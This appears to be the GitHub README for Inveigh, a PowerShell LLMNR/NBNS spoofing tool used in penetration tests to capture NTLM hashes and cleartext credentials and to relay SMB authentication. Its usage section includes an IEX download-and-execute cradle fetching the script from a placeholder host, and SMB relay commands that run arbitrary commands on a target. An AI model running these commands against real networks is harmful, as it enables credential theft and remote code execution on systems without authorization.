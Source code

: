 # Inveigh
Inveigh is a Windows PowerShell LLMNR/NBNS spoofer designed to assist penetration testers that find themselves limited to a Windows system. This can commonly occur while performing standard post exploitation, phishing attacks, USB drive attacks, VLAN pivoting, or simply being restricted to a Windows system as part of client imposed restrictions.

# Requirements
Tested minimums are PowerShell 2.0 and .NET 3.5

# Notes
1. Currently supports IPv4 LLMNR/NBNS spoofing and HTTP/HTTPS/SMB NTLMv1/NTLMv2 challenge/response capture.
2. LLMNR/NBNS spoofing is performed through sniffing and sending with raw sockets. 
3. SMB challenge/response captures are performed by sniffing over the host system's SMB service.
4. HTTP challenge/response captures are performed with a dedicated listener.
5. The local LLMNR/NBNS services do not need to be disabled on the host system. 
6. LLMNR/NBNS spoofer will point victims to host system's SMB service, keep account lockout scenarios in mind.
7. Kerberos should downgrade for SMB authentication due to spoofed hostnames not being valid in DNS.
8. Ensure that the LMMNR,NBNS,SMB,HTTP ports are open within any local firewall on the host system.
9. If you copy/paste challenge/response captures from output window for password cracking, remove carriage returns.
10. SMB relay support is experimental at this point, use caution if employing on a pen test.

# Usage
Obtain an elevated administrator or SYSTEM shell and use a method to load the module

To import with Import-Module:   
Import-Module ./Inveigh.psd1  

To import using dot source method:  
. ./Inveigh.ps1  
. ./Inveigh-Relay.ps1  

To load into memory using Invoke-Expression:  
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh.ps1")  
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh-Relay.ps1")  

To execute with default settings:  
Invoke-Inveigh

To load and execute with one line:    
Import-Module ./Inveigh.ps1;Invoke-Inveigh

To execute with features enabled/disabled:   
Invoke-Inveigh -IP 'local IP' -SpooferIP 'local or remote IP' -LLMNR Y/N -NBNS Y/N -NBNSTypes 00,03,20,1B -HTTP Y/N -HTTPS Y/N -SMB Y/N -Repeat Y/N -ConsoleOutput Y/N -FileOutput Y/N -OutputDir 'valid folder path'

To execute with SMB relay enabled through Invoke-Inveigh:   
Invoke-Inveigh -SMBRelay Y -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"

To execute with SMB relay with only Invoke-InveighRelay:  
Invoke-InveighRelay -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"  

Use 'Get-Help -parameter * Invoke-Inveigh' for a full list of parameters

# Functions
Invoke-Inveigh - Start Inveigh with or without parameters  
Invoke-InveighRelay - SMB relay function  
Get-Inveigh - Get queued console output  
Get-InveighCleartext - Get all captured cleartext credentials  
Get-InveighLog - Get log entries  
Get-InveighNTLM - Get all captured challenge/response hashes  
Get-InveighNTLMv1 - Get captured NTLMv1 challenge/response hashes  
Get-InveighNTLMv2 - Get captured NTLMv2 challenge/response hashes  
Get-InveighStats - Get captured challenge/response counts  
Watch-Inveigh - Enable real time console output  
Clear-Inveigh - Clear Inveigh data from memory  
Stop-Inveigh - Stop all running Inveigh functions  

# Included In
PowerShell Empire - https://github.com/PowerShellEmpire/Empire  
PS>Attack - https://github.com/jaredhaight/psattack  

# Special Thanks  
Anyone that posted .net packet sniffing examples.  
Responder - https://github.com/SpiderLabs/Responder  
Impacket - https://github.com/CoreSecurity/impacket  

# Screenshots
Invoke-Inveigh execution with real time console and file output enabled
![inveighv1](https://cloud.githubusercontent.com/assets/5897462/12239354/4bb8a01a-b856-11e5-8a1e-5c0ebbb1ff35.PNG)

Retrieval of captured NTLM2 challenge/response hashes with Get-InveighNTLMv2
![inveigh2](https://cloud.githubusercontent.com/assets/5897462/10326313/abde41d8-6c67-11e5-91b8-0c55271ba326.png)

HTTP to SMB Relay
![inveigh3](https://cloud.githubusercontent.com/assets/5897462/10326314/b2de540a-6c67-11e5-8627-fe5d27018dc3.png)

Module import and execution through one of Ben Turner and Dave Hardy's Metasploit Interactive PowerShell Session payloads
![inveigh5](https://cloud.githubusercontent.com/assets/5897462/10354363/53e73784-6d2d-11e5-8509-9bb7f3feab88.png)
